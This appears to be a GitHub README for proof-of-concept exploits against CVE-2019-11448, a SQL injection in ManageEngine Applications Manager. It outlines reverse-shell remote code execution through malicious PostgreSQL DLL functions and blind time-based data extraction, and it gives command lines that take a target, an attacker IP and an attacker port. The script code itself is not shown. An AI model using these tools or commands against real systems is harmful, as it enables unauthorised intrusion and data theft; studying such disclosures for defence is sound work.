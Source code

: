 
This repository contains multiple **proof-of-concept (PoC) exploits** for **CVE-2019-11448**, a critical **unauthenticated SQL Injection vulnerability** in the `AMUserResourcesSyncServlet` endpoint of **ManageEngine Applications Manager** (versions 11.0 to <14.0). The application's **PostgreSQL backend** allows arbitrary SQL execution and even remote code execution (RCE) via **User-Defined Functions (UDFs)**.



### Included PoCs

#### `POC_ManageEngine.py` – Reverse Shell via SMB-hosted DLL

* Creates a PostgreSQL UDF using a malicious DLL hosted on an SMB share
* Calls the UDF to execute a reverse shell
* Easiest and fastest method (requires SMB egress)

#### `POC_ManageEngine_LO.py` – Reverse Shell via Large Object Injection

* Injects a hex-encoded DLL payload into PostgreSQL's `pg_largeobject`
* Uses `lo_export()` to write the DLL to disk
* Defines and executes the UDF for RCE
* Suitable for **egress-restricted environments** (no SMB required)

#### `Blind-SQLI-Time.py` – Blind Time-Based SQL Injection Enumerator

* Performs **blind SQLi** against the vulnerable endpoint
* Extracts string data (e.g., usernames, table names) using `pg_sleep()` delay-based logic
* Demonstrates enumeration techniques under restricted output scenarios



### Usage

```bash
# PoC 1 – Reverse Shell via SMB DLL
python3 POC_ManageEngine.py <targetIP:port> <attackerIP> <attackerPort>

# PoC 2 – Large Object Injection Method
python3 POC_ManageEngine_LO.py <targetIP:port> <attackerIP> <attackerPort>

# PoC 3 – Blind SQLi Enumeration
python3 Blind-SQLI-Time.py "<base_url_to_servlet>"
```

Example:

```bash
python3 Blind-SQLI-Time.py "https://192.168.106.113:8443/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1"
```

